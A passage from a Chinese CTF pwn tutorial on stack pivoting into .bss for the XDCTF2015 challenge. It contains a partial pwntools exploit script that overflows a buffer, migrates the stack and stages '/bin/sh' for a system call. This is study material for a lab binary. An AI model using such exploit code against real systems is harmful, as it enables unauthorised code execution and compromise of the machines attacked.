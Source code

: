 ![image-20240315132205540](${images}/image-20240315132205540.png)



然后执行pop ebp的操作，刚刚写入的数据使得esp刚刚的数据转变为fake ebp2，中有我们部署好的函数地址。

此时，ebp内数据被pop，esp输入，那么，ebp的值就为fake ebp2，且此时esp里会被减一，如果我们输入的数据中部署的函数的地址在第一字节处，那么esp就会指向我们刚刚部署好的函数地址，紧接着的ret指令就会执行(返回)[跳转]函数

![image-20240315132823187](${images}/image-20240315132823187.png)



第三步、控制write函数输出相应字符和栈布局

> 这里主要输出"/bin/sh"字符串，这样就能作为system函数的参数执行，此时因为我们的函数在.bss段，因此此时需要注意一点，.bss段的地址是由低向高地址扩散：
>
> ![image-20240315133145945](${images}/image-20240315133145945.png)

那么此时的代码为：

```python
from pwn import *

#这里是获取elf的相关信息
elf = ELF('main')
p = process('./main')
rop = ROP('./main') #方便实现ROP链

offset = 112  #这是之前得到的溢出所需的字节
bss_addr = elf.bss() #获取.bss段首地址

p.recvuntil(b'Welcome to XDCTF2015~!\n')

#1、栈迁移到.bss段

# 设置新栈的大小为0x800
stack_size = 0x800
# 设置栈的首地址
base_stage = bss_addr + stack_size
# 因为.bss段的特殊，所以由高向低写（也可能是错的）


# 填充缓冲区
rop.raw(b'a' * offset)
# 向新栈写入100字节
# rop.read()可以自动完成刚刚说的read函数，函数参数，返回地址的栈部署
# rop.call('read',[0,base_stage,0x100])
rop.read(0, base_stage, 0x100)

# 开始栈迁移
# 即设置 esp = base_stage
# rop.migrate(base_stage)会利用leave_ret自动完成部署迁移工作
rop.migrate(base_stage)
p.sendline(rop.chain())

#2、打印"/bin/sh"字符串
rop = ROP('./main')
sh = b"/bin/sh"

# rop.write()会自动完成write函数、函数参数、返回地址的栈部署,写入sh
# 这里的参数base_stage + n 的 n由下面的len(rop.chain())决定
# rop.call('write',[1, base_stage + 10, len(sh)])
rop.write(1, base_stage + 80, len(sh))

rop.raw('a' * (80 - len(rop.chain())))
rop.raw(sh)
```

[CTF-wiki]: https://ctf-wiki.org/pwn/linux/user-mode/environment/	"ctf-wiki知识库"
[CTFHub]: https://www.ctfhub.com/#/skilltree	"ctfhub技能树"
[攻防世界]: https://adworld.xctf.org.cn/challenges/list	"题库"